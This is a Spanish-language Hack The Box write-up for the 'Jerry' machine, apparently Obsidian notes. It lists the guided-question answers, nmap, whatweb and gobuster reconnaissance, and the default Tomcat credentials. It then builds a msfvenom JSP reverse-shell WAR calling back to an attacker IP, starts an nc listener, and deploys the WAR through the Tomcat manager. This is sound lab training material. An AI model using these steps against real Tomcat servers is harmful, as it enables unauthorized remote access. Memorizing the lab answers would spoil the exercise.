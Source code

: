 ```yaml
---
title: Writeup jerry - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - jerry
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina  jerry en Hack The Box.
keywords:
  - writeup  jerry
  - hack the box  jerry
  - resolución máquina  jerry
  - jerry hack the box
  - htb  jerry
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Jerry)
- 📺 **Resolución en vivo (completa)**: [Link]([Link](https://www.youtube.com/watch?v=NfEMX7-BFTo))
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=K7h88F15U58)

-------

#easy #windows #ping #nmap #tomcat #arbitraryfileupload #whatweb #msvenom #reverseshell #tratamientotty #rwrapncnlvp443

---------
# Guided Mode

1)¿Qué puerto TCP está abierto en el host remoto?
	8080

2)¿Qué servidor web se está ejecutando en el host remoto? Buscando dos palabras.
	apache tomcat

3)¿Qué ruta relativa en el servidor web lleva al Web Application Manager?
	/manager/html

4)¿Cuál es la combinación válida de nombre de usuario y contraseña para autenticarse en el gestor de aplicaciones web Tomcat? Dar la respuesta en el formato de nombre de usuario:contraseña
	tomcat:s3cret

5)¿Qué tipo de archivo puede cargarse y desplegarse en el servidor utilizando el Administrador de Aplicaciones Web Tomcat?
	war

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.95
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.95 -oG allPorts
nmap -sCV -p8080 10.10.10.95 -oN target
```

![[Jerry1.png]]
![[Jerry2.png]]
*TTL:* Maquina windows
*Puertos:*
	``8080 `` HTTP 

--------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.95:8080/
```
![[Jerry3.png]]

![[Jerry12.png]]

Nos informa que esta corriendo un *Tomcat Version 7.0.88*

-------
# [[Gobuster]]

```shell
gobuster dir -u http://10.10.10.95:8080 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 64 --add-slash
```

![[Jerry13.png]]

Nos indica que esta el directorio */manager/html*

---------
# Robo de credenciales y logeo en tomcat

Entramos a la pagina principal y vemos que es un tomcat
![[Jerry5.png]]
Ponemos un usuario y contraseña para probar, y como no tenemos nada valido apretamos en *Cancel*
![[Jerry6.png]]
Y en la pagina de error, nos muestra un usuario y contraseña que al probarlos, vemos que podemos ingresar al panel de tomcat
![[Jerry4.png]]
tomcat:s3cret

![[Jerry11.png]]
Vemos que podemos subir archivos .war. Asi que vamos a mandarnos una [[Reverse shell]]

-------
# [[Arbitrary file upload]] con exploit creado con [[msfvenom]] para mandarnos una [[Reverse shell]]

Con [[msfvenom]] creamos el archivo .war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -f war -o shell.war
```

![[Jerry8.png]]
Creamos el archivo shell.war que lo vamos a subir a la pagina 

Ahora mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]] vamos a ingresar a la pagina http://10.10.10.95:8080/shell/ para ejecutar el archivo shell.war que subimos anteriormente
Y listo ya estamos adentro de la maquina y podemos catear las flags
![[Jerry9.png]]

![[Jerry10.png]]

---------
# Notas

Tomcat es un servidor de aplicaciones desarrollado por Apache que permite ejecutar aplicaciones web escritas en Java. Funciona como contenedor de servlets y JSP, siguiendo la especificación Java EE. Escucha comúnmente en el puerto 8080. Es usado tanto en entornos de desarrollo como en producción.

----
# Creditos

[Writeup de territoriohacker](https://territoriohacker.com/htb-jerry/)